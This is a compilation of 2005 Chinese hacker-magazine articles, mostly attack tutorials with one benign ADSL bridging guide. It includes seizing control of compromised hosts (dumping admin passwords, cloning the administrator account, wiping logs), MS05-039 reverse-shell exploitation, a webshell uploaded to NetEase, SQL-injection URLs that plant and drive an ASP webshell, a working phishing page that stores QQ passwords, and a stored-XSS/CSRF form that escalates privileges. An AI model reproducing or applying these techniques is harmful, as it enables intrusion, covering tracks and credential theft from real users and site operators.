# 非安全黑客手册合订本2005年第二部分

--

# 六、彻底控制——寻找管理员的密码

现在，要寻找管理员的密码，还有一个前提条件，那就是：管理员现在必须登录了，还得知道计算机名称！也就是说，要知道管理员的账号，还有管理员 winlogon.exe 进程的 PID 值。怎么找呢？很简单，我们可以用终端服务管理器 tsadmin.exe。打开终端服务管理器，上面括号里就有 administrator 管理员的相关资料，我们看看他开了哪些东西。找到 winlogon.exe 的值，记下这个值是 224，还有个主机名是 FOTOCOPY，如图14所示。

现在，我们组合起来，findpass 的命令就是：

```bash
findpass FOTOCOPY administrator 224
```

OK！密码出来了！管理员的密码是 pepsicola，列出来的顺序是：计算机名 / 用户 / 密码。如图15所示。

那么，这个 1F4 在哪里呢？在上方的 Users 组下，有一个“000001F4”，看看后面的 1F4，连同标号位吗？对了！这表示我们找到了管理员的值，下面有 2 个键值，一个是 F，一个是 V。我们复制 F 值里面的内容，双击打开，然后找到我们要克隆的帐号的值。Guest 的值是 1F5，打开他的 F 值，再把复制的管理员内容全部粘贴进去，一切正常，如图13所示。

好了，这样，我们这步就差不多了。现在要做的就是打扫卫生了！打开我们自己文件夹下的 klog.exe，这是一个专门清除日志的软件，点击运行后，几个窗口闪过，蛛丝马迹都消失了。然后，我们重新启动电脑。现在，万事大吉，检查后，美味“肉鸡”牢牢地在我掌握之中。现在，这个肉鸡想怎么吃就怎么吃了！

> （本文涉及的 query.exe、elsave.exe、TFTPD32.EXE、psu.exe、findpass.exe、klog.exe、tihuan.exe、3389gai.exe 在光盘中均有收录）

使用类似的方法克隆另外一个帐号。可能有朋友问了，既然进入了这个电脑，为什么不把全部密码都找出来呢？当然是可以的了！用 findpass 这个软件就可以了。

> 编者话评：  
> 小编在图11看到一个“shanlu”账户，据此猜想这台肉鸡是用“WIN2K 自动攻击探测机”找的，这程序找肉鸡的速度还是挺快的。此机 IP 的开头是“202”，是否为外国机子还有待考证（并不是装了英文系统就是外国人用的）。本文给大家讲了很多独享肉鸡的方法，下次找到肉鸡可不要再丢了哦！

## 内网 IP 到公网 IP 的转换

by 海的归宿

大家都知道 ADSL 猫具有路由功能，可以实现自动拨号，轻松构建内网等便利。什么是路由？本文先提供路由基础知识：所谓路由，是指将数据包从一个网络（源网络）运送到另一个网络（目标网络），并将数据包转发给目的主机的过程。路由工作于 OSI 参考协议的第三层（网络层），通过 IP 和 IPX 等协议地址来实现数据转发。

当 ADSL 猫拨号时，公网 IP 加载在其内部的路由模块中，猫内部的路由模块可以实现自动拨号和加载 IP 地址的功能，同时还提供局域网模块，负责局域网内部通信和组网。ADSL 猫的路由功能极大方便了 ADSL 拨号和局域网组网，但美中不足的是，拨号所得的公网 IP 加载在路由器上，我们的电脑则成为局域网内的一员，任何访问我们本机的进程都要经过路由猫来转发。虽然路由猫提供了 NAT 功能，但操作和数据转发并不是那么直接。

有没有更直接的过程呢？让拨号所获得的 IP 加载到我们电脑上。有，去掉路由猫的路由功能，改用桥接功能，这样 ADSL 猫只提供拨号功能，网络层操作由我们的电脑来完成，这样就实现了公网 IP 加载到电脑上。

- ATM interface：ATM 接口，也就是猫拨号的接口，一共有 0~7 号 8 个接口，接口号越低优先级越高。  
- Operation Mode：操作模式，YES 表示运行，NO 表示关闭。使用当前接口时，务必让其他接口处于关闭状态。  
- Encapsulation：封装。默认使用路由协议，这里我们选择：1483 Bridged IP LLC，桥接协议。  
- VPI：Virtual Path Identifier，虚通道标识符，标识用户之间或用户与网络之间的虚通道，默认为 0。  
- VCI：DSLAM 识别各 ATM 终端（ADSL 线路）的标志，由你的 ISP 提供，电信 ADSL 为 200。  
- Bridge：桥接，Enabled 表示启用。  
- DNS：你本地的 DNS 服务器，解析不了域名可到这里改。

第一步如图1所示，进入 ADSL 猫的 WEB 配置页面，进入快速设定页面，相关参数设置；其他默认设置即可。

第二步如图2所示，进入 LAN（局域网）设置的 DHCP 设置页面，DHCP Mode（DHCP 模式）设置成 None，表示禁用。DHCP 是动态主机配置协议，局域网内的动态 IP 就由它来分配，但我们配置完后将得到公网 IP，IP 分配由公网上 ISP 提供商的 DHCP 服务器完成。为了避免两者冲突，很有必要关闭 ADSL 猫的 DHCP 服务。

第三步如图3所示，进入 Bridging（桥接）设置的桥接设置页面，默认的桥接是 Disable（关闭）的，我们选择 Enable 启用它。

- 路由和桥接的区别：  
  - 桥接发生在 OSI 参考协议的第二层（链路层），而路由发生在第三层（网络层）。  
  - 桥接通常基于 MAC 地址工作，只转发数据帧；路由基于 IP 地址进行转发，并可在不同网络之间进行路径选择。

到这里猫的配置基本完成，现在你的路由猫已经变成了一只桥接猫了。接下来你需要手动拨号的 ADSL 猫（不带路由功能）。第四步打开本地连接，设置 IP 为自动获取。第五步安装电信提供的 ADSL 拨号软件，输入用户名和密码，拨号成功即可。

## MS05039 漏洞测试过往

by 老李 & 王岗

【避毒提醒】ADSL 上网的用户如果装了杀毒软件，也许常遇到过不了一会儿杀毒软件就报警有攻击来袭。虽然烦人，可很多朋友都不能适应用 ADSL MODEM 接入后处于内网 IP 的方式，有的设置了又觉得内网 IP 极为不爽，那就看看本文内网外网如何转换吧。

其命令格式为：ms05039 <host> <conIP> <conPort> [target]。Host 是指所要溢出的 IP，conIP 是指本机 IP，conPort 是指受溢出后反弹回来的端口，target 可选 0 与 1（1 为 CN 系统，0 为 EN 系统）。

然后保存成 05039.bat 格式文件（注意需与溢出工具同目录），运行后可依次对存在漏洞的机器做测试。示例中 192.168.202.139 为本机 IP，7799 为端口，后面的 1 代表 Windows 2000 SP4 Chinese。

得到 shell 以后可进一步操作。更多漏洞信息可参考微软公告链接。

正文介绍了 ms0539（ms05039）相关溢出工具在内网中的测试流程：先扫 445 端口，再对目标主机进行溢出尝试，成功后通过 NC 连接回连端口获取 shell，并讨论批量测试方法。

> 提醒：文中工具分为小榕版与 E.S.T 版，前者高效且正向连接，后者在某些场景下效果显著，建议根据环境选择。

大家明白漏洞工具使用后，更应关注漏洞原理；可据此编写自己的工具，而不仅依赖现成脚本。

西线春语：先来说一些改变，大家可以看到在本期大多数文章的末尾多了一个编辑点评。嘿嘿，都是让超级女声闹的。不过讲实话，我的技术水平并不比有的作者强。这样也来点评，就像超级女声的前评委柯以敏，老在选手面前显示自己老式的美声唱法来努力挽回已过气的明星味一样，惹得“爱人不倦”的 fans 骂声一片。套路、自恋、苛刻……（持其他观点的编辑路过：柯式张扬的评审方法，比“去掉一个最高分”“去掉一个最低分”的传统评审，更具有观赏性哦，牛）……嘿，我也更希望和读者一起来褒扬或狠狠鄙薄一篇文章，只有这样才能真正从文章中获得知识，大家才能共同进步和提高。其次，本期的文章几乎成了网站攻击的一个系列。国内某些大型访问统计系统的隐患、如何用钓鱼手法盗 QQ 号……甚至，当你完全没办法入侵成功时，XSS 也是一个不错的选择。当然，只用 GET 我们照样可以玩，和轻松搞定足球站都是值得关注的方法和“高烧”漏洞，大家要好好玩哦。

## 入侵网易 WAP 博客

光芒果

今天手机忽然收到一条服务信息，说是网易 WAP 站开通个人免费 WAP 博客。WAP 博客？好东西，顾不得 GPRS 通信费贵了，赶快用手机登录注册了一个帐号。

注册后，我发现还可以将手机里的资料用彩信方式发到网易的服务号码，把文件放到网上。我正为新买的 NOKIA 6610i 没有数据线、拍的照片不知道怎么放到网上发愁呢，这下好了，马上发几个 PLMM 上去吧。不一会儿就收到网易说上传成功的短信回复了，爽就一个字啊！

但发过去后图片的 URL 是什么呢？我记得以前也发到过 QQ 的 WAP 相册，但登录 QQ 空间后就找不到图片放到哪了。不管它了，先来到 wap.163.com 看看账号，转到了另一个页面，根本找不到博客的链接（图1）。难道又是骗人的？不对，我隐约记得用手机上的时候说普通计算机可以到 wap.163.com/blog/****/**** 登录管理自己的 WAP 博客，但后面的地址忘了，怎么办，难道又花很多钱用手机再看一次网址吗？不管它，直接看看 wap.163.com/blog 吧，奇迹出现了！居然可以遍历目录（图2）。

汗，看有什么好东西先。一眼就看见了那个 DATA（注意大写哦），进去看看是不是数据库地址。进去一看，晕，一大堆目录不知道是干什么用的，没什么利用价值啊（图3）。再回到 blog 目录，看到一个 a.zip，下载回来看看到底是什么。哈哈，好像是主要源代码啊，这下发了！（图4）再看看其它的，有 web，点进去有个 login.jsp，打开一看，就是我要找的登录页面了，还可以在这里直接注册呢（图5）。登录进去后就到了我的相册页面。点进那个相册，哈哈，我的图片出来了（图6）！那图片的真实 URL 是什么呢，看属性不就知道了（图7），原来 DATA 是放用户文件的地方啊！

既然遍历目录这种漏洞都有，看看还有没有别的漏洞。点击我的图片看大图，如图8所示。

若是没有限制，那个 URL 后的 ID 就是当前图片的 ID，把它换为别人的看能行不（图9），看来可以看别人的图片了。既然这样，看能删别人的图片不，点击删除，提示删除成功（图10）。不会吧？是真没了，再由图8那个 ID 看看，如图11所示，文件名不见了，居然成功了！照这样说，如果抓包用 NC 提交应该可以删除任意文件。怕怕，不敢乱来。

看看还有其他漏洞没，打开“藏宝箱”链接，发现也可以上传文件！而且分公开和私人的两种。如果我们上传一个私人的文件，用遍历目录可不可以看到呢？于是我随便放了一个 TXT 文件上去，设为私人文件。然后到 DATA 下直接看我文件放的目录，结果一看就看到了（图12），哈哈！

这时我忽然注意到图13的相册上传界面和图14藏宝箱文件上传界面的不同。发现了什么？对，相册那只可以上传 GIF 或 JPG 的图片和压缩包，而藏宝箱文件上传却没说限制，是不是可以上传任意文件呢？我于是找了一个 JSP 木马上传上去，居然成功了（图15）。哈哈，马上进入 DATA 下我文件放的目录吧。打开这个 JSP 木马，居然成功执行了（图16）！

漏洞似乎就到此了，我可不敢再去通过 SHELL 提权控制服务器，毕竟是网易啊。于是我登录进我的 WAP 博客，在藏宝箱那里把刚放的文件删掉了。提示成功删除返回后又有一个怪事出现了：删掉文件后我的已用空间竟成了负数（图17）！

怎么回事？我又到 DATA 下放我文件的地方看了看，发现文件还在（图18）！汗？这不就变成无限空间了吗！

不行，我不敢玩了，连夜打电话给网易，顺便搞点 VIP 邮箱和大话点卡之类的玩玩。

> 【相关过程作者做了动画，及文中用到的 JSP 木马都放在“本城光速”】

千里之堤，毁于蚁穴，用于形容从 Web 入侵到拿下系统权限的过程是最为恰当的。大的网站，如果网络安全意识不高的话，是很容易从某个方面出纰漏的。安全，首先要以人为本，这句话一点不错。本期栏目共有两篇文章与入侵网易相关，网易的网管看到后是不是会有点难堪呢？

## 雕虫小技：让 IE 使用多线程下载网页

在默认情况下，Windows 对一个 HTTP 服务同时连接数进行了限制：对 HTTP 1.0 服务器允许同时进行四个连接，对 HTTP 1.1/1.2 服务器则允许同时进行两个连接，速度显然太慢了。没关系，我们可以通过修改注册表让 IE 的下载速度加快数倍。

```text
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings
```

在该分支中，将右侧窗口中的“MaxConnectionsPerServer”值和“MaxConnectionsPer1_0Server”值加大。不过不要调得太大，一般取 5~8 之间的数比较合适。

## 只用 GET 我们照样可以玩

KYO

我们在玩入侵的时候，会碰到很多奇怪的情况。比如我前几天就碰到一个站，通过 IISWHTT.CXC 看到 ALLOW 没有 POST，如图1，看来只能利用 GET 来玩了。这样的确麻烦就多了很多，至少我们就没有 WEBSHELL，也不能上传，不能在里面写文件，因为这些都是利用 POST 来提交数据的。

不过这个站找到了一个点是 SA 权限，在我利用的过程中，只要提交的数据里面有 XP_CMDSHELL、sp_oacreate、DNS，就解析错误，返回结果却如图2所示，连“exec master..xp_servicecontrol 'start','SQLSERVERAGENT';--”启动一个存储过程都仍然返回 DNS 解析错误的页面，实在搞不懂怎么回事。

好在 NBSI 还能扫一下目录，这样就找到了 WEB 的物理路径。后来我通过 sp_makewebtask 这个存储过程总算写进去一句话木马。也许大家都知道这是 SQL SERVER 里面的 WEB 助理，能写的也只有“一句话码”，稍微长一点就又会报错。我给出我的利用语句吧，可能会对大家有用：

```text
http://www.***.org/cubanprisos/priser_ning.asp?rbt=1.4';exec%20master..dbo.sp_makewebtask%20@outputfile='e:\***.org\frontend\ky.asp',@query='select%20''%3c%25%65%78%65%63%75%74%65%20%72%65%71%75%65%73%74%28%22%75%22%29%25%3e''
```

语句中的“execute request("u")”我已经转化成 URL 编码了。不能 POST，那么我们的海阳客户端就没用了，只能用 GET 来查看我们想知道的信息。

由于站点比较敏感，以下我在自己电脑上测试：111.asp 架设在 WEB 目录，写的一句话小马：

```text
http://127.0.0.1/111.asp?u=Set%20wsh%20=createObject('WScript.Shell');wsh.Run('cmd.exe /c c:\111\tmp.tmp',0,TRUE);set%20wsh=%20nothing:Set%20fso=%20createObject('Scripting.FileSystemObject');set%20file%20=fso.OpenTextFile('c:\111\tmp.tmp',1);do%20until%20file.AtEndOfStream:Response.Write%20file.readline()%26'<br>':Loop:file.close:set%20file=nothing:fso.deletefile('c:\111\tmp.tmp');set%20fso=nothing
```

运行后成功显示出了 net start 的内容，如图3所示。

当然，语句里面的 net start 可以换成 ipconfig /all、net user 等等，利用 WScript.Shell 来查询我们需要的信息。另外我们还可以读文件源代码。比如，我那个目标不是 SA 权限吗？通过 NBSI 扫 WEB 目录，我们就可以猜出可能含有 SA 密码的文件名的物理路径，然后再通过 FSO 读出源代码就 OK 了。更理想的情况是目标开了 1433 的话，后面就不用我说了。

下面我给出该文件源代码的语句：

```text
http://127.0.0.1/111.asp?u=Set%20fso%20=%20createObject('Scripting.FileSystemObject');set%20file%20=fso.OpenTextFile('e:\wwwroot\conn.asp',1);Do%20Until%20file.AtEndOfStream:Response.Write%20file.readline():Loop:file.close:set%20file=nothing:set%20fso=nothing
```

执行上面语句后，查看源代码就 OK 了，如图4。

其实还可以做很多事情的，例如复制文件的语句是：Set fso = createObject('Scripting.FileSystemObject');fso.movefile "c:\wwwroot.exe","c:\perl\bin\muma.exe":set fso=nothing。还需要什么功能，就留给读者自己去发掘吧。总之，只有想不到的，没有做不到的。

以上都是一些小问题，希望能给大家带来帮助。

> 编辑现场报道：kyo 的文字给我所知，都是把自己想到的一点心得与大家分享。而且他入侵的经验实在是多，碰到了各式各样的怪站也多，不过他好像总能想出办法来。一句话，这篇文章有价值！

# 国内某些大型访问统计系统的隐患

在开始读该篇文章的时候，请大家首先了解一下关于本文所提及到的相关知识以及原理：跨站脚本攻击的详细解释。

跨站脚本攻击又名 CSS/XSS，就是利用 ASP 等脚本文件设置和编写时的错误或者疏忽不当，攻击者就可以利用这些来达到自己攻击目的……

## 一、统计系统的工作原理

```html
<script src="mystat.asp"></script>
```

就是利用统计系统的页面嵌入到使用网站的页面，从而记录网站的用户浏览数据以及动作……

## 二、漏洞解释

因为统计系统只是作为一个第三方程序而存在，所以在程序的安全方面都会比较疏忽……

首先我们可以找一个目标网站，为了得到管理员的密码信息，必须将针对管理员经常去的地方——网站访问统计系统……



【文章中涉及的软件“统计通”跨站1、2，在此故略】

利用第三方软件的漏洞进行攻击，从而达到入侵目的，是近来黑客手法的一个方向……

# 黑夜中的刺杀（钓鱼系列）

## 如何用钓鱼平台盗 QQ 号

Hak_Bai\[B.C.T] & 玄猫[Blackwoods.Cn]

本文在此就把整个钓鱼网站的过程说清楚了……请大家看清楚相关的初学关系，判断本站是否可信……

> “平平安安网站挂，哭哭啼啼 QQ 丢”

我和玄猫有一句话送给大家……本文到此结束，如果对本文有任何关于防御以提防的地方可以到“非安全—黑客手册”或者“Bug.Center.Team”询问！

钓鱼攻击在最近的国外调查中，已超过垃圾邮件成为危害互联网众多黑客手法的第一名……

不知道，从什么时候起网络上兴起了挂 QQ 的风潮，谁都在为了腾讯所谓的等级不断地挂 QQ，就连对挂着 QQ 拿个等级有啥作用也不知道的人，看着别人等级比自己高就感觉特别不爽，所以慢慢地挂 Q 成为了一种时尚，也成就了一种新的业务。网上各种各样的挂 QQ 网站层出不穷，但是有没有人去怀疑自己所使用的挂 QQ 网站是不是真的安全了？

```javascript
function Login(){
  window.open('about:blank','qqLogin','width=400,height=300,resizable=no,scrollbars=no,status=no,toolbar=no,menubar=no,location=no');
  document.QQForm.target='qqLogin';
  document.QQForm.action='login.asp';
  document.QQForm.submit();
}
```

现在盗取任何聊天软件的号码，不外乎就是利用盗号软件以及键盘记录软件盗取被种植主机的账号以及密码，这种累赘而又需要多方软件支持的手法已经过时了。现在行之有效的就是利用无污染（不需要软件以及任何病毒）去进行盗取账号密码的网络钓鱼攻击，网络钓鱼已经变成了黑客以及一些不法分子用来进行盗取银行账号等相关敏感信息的最有效最快速的途径，而我们也可以利用网络钓鱼在一夜之间拥有成千上万的 QQ 号以及密码甚至 QQ 密保信息。

从上面的代码我们可以看到，这是一个正常挂 Q 网站的登录页面代码，当用户访问网站的时候，输入的账号以及密码就会提交给 login.asp 页面，然后再转去挂 Q 系统。如果作为钓鱼者本身想完美地结合真实的挂 Q 网站去完成整个操作流程，那样子他就必须在这个提交页面做一些修改，使被钓者的信任感在存储信息前达到高点，所以钓鱼者会有可能把代码提交的语句修改为：`document.QQForm.action='http://www.phishing-attack.com/pass.asp';` 在这里我们可以看到钓鱼者把提交的数据转发去了 www.phishing-attack.com 网站，为了避免数据会被发现，所以钓鱼者利用中间站记录用户所提交的信息。

首先钓鱼者本身是会仿冒一个挂 Q 的网站页面，因为要使访问者相信，所以在仿冒时会根据时下最多人访问的挂 Q 网站进行设计（如图所示）。仿冒好一个虚假的网站之后，钓鱼者本身会想办法如何保存所钓到的资料。通常在钓鱼网站中都会采取本地记录相关资料，但是整个用户的使用流程就会在输入账号以及密码后出现问题，就是说钓鱼者自身会想个借口出来说：“该系统因系统繁忙，暂时无法为你服务！”等等的理由，让被钓者信服。

可能大家会问整个钓鱼过程是怎么样的？我给一个比较简单的过程大家看看：

**钓鱼网站——中间记录站——真实挂 Q 网站**

密码先提交给钓鱼网站，钓鱼网站会把数据转去中间记录站，然后在中间记录站进行数据的保存，再次将用户所提交的数据提交给真实的挂 Q 网站，这样在过程中用户不但可以完成整个操作的流程，并且钓鱼者本身可以记录账号密码信息，延长整个钓鱼网站的生命周期。中间站的作用是为了保存信息以及保护信息的安全性，不必担心当虚假网站被发现时所保存的数据会被发现。

```asp
<%
Dim strQQ,strPassword
strQQ = Trim(Request.QueryString("qqid"))
strPassword = Trim(Request.QueryString("qqpassword"))
If IsNumeric(strQQ)=True And strQQ<>"" And strPassword<>"" Then
  ' 存储数据
  Dim conn,connstr
  Set conn = Server.CreateObject("ADODB.Connection")
  connstr="Provider=Microsoft.Jet.OLEDB.4.0;Data Source=" & Server.MapPath("data.mdb")
  conn.Open connstr
  conn.execute("insert into [tQQ] (cQQ,cPassword,cTime) values ('" & strQQ & "','" & strPassword & "',Now())")
  conn.close
  Set conn=Nothing
End if
' 转发
%>
<body onLoad="javascript:document.q.submit();">
<form action="http://www.***.com/Login.aspx" name="q" id="q">
  <input name="qqid" type="hidden" value="<%=strQQ%>">
  <input name="qqpassword" type="hidden" value="<%=strPassword%>">
</form>
</body>
```



仿冒挂 QQ 的网站

# 利用 PhpArticle 跨站提升权限

玄猫[B.C.T]

玄猫的脚本漏洞站点黑色森林（http://www.blackwoods.cn）是用 PhpArticle 搭的文章系统。PhpArticle 是一款基于 php+mysql 的站点文章系统，页面清爽、速度快，并且功能比较完善。上述后台有个记录别人尝试登录时输入的错误密码的功能……比较实用……

## 一、漏洞发现

我们直接来试下跨站，进入黑色森林的后台登录页面，然后用户名和密码分别写入构造的用于测试的跨站代码。登录后在“管理日志—非法登录记录”中触发弹窗，说明该处存在跨站漏洞（图1）。



好的，既然确定了有跨站漏洞，我们来思考如何利用它达到收益最大化……这里目标是提升网站用户权限。

好了，为了保证跨站的可行，我们先来看程序非法登录记录的代码：admin/loginlog.php

```php
while ($loginlog = $DB->fetcharray($nav->sqlresult)) {
  echo "<tr class='get_rowbg'>";
  ...
  <td>$loginlog[username]</td>
  <td>$loginlog[password]</td>
  <td nowrap>date(...$loginlog[date])</td>
  <td>$loginlog[extra]</td>
}
```

我们不难发现，程序从数据库中调取数据后没有经过 html 代码过滤就直接显示在页面上了，所以当管理员登录后查看此页时，我们可以对其进行跨站攻击。

## 二、攻击实例

当我们可以在页面插入任意代码时，有多种选择：插入 javascript 脚本、插入外链脚本文件、或用 iframe 隐藏页面。这里利用管理员登录时的身份来提交我们构造的用户管理页面，并用 iframe 实现。

在构造表单之前先确认该表单是否允许外部提交。以管理员身份打开会员编辑页，保存抓包到本地后修改 form 的 action 再提交，提示修改成功，说明允许外部提交。

由于原页面不符合 WEB 标准且自动提交报 javascript 错误，我们自构造一个仅含必要字段的表单，并在 body 上加 `onLoad=javascript:document.forms[0].submit()` 自动提交。

还需注意 userid，可在管理员登录后从 cookie 中取 pauserid 值。构造好的表单上传到自己空间，再在用户名处写入 iframe 引入该页面，管理员查看日志时即会触发并把目标账号提升到超级管理员组。

```html
<!DOCTYPE html ...>
<html>
<head>...</head>
<body onload="javascript:document.forms[0].submit()">
<form action="http://www.blackwoods.cn/admin/user.php" method="post">
  <input name="userid" value="38" type="hidden" />
  <input name="username" value="pover" type="hidden" />
  <input name="email" value="unnamed@unnamed.com" type="hidden" />
  <input name="usergroupid" value="1" type="hidden" />
  <input name="action" value="update" type="hidden" />
</form>
</body>
</html>
```



我们登录后查看非法登录记录的时候，很遗憾地发现插入的浮动框架并没有按照我们设想的是隐藏的（图3）。

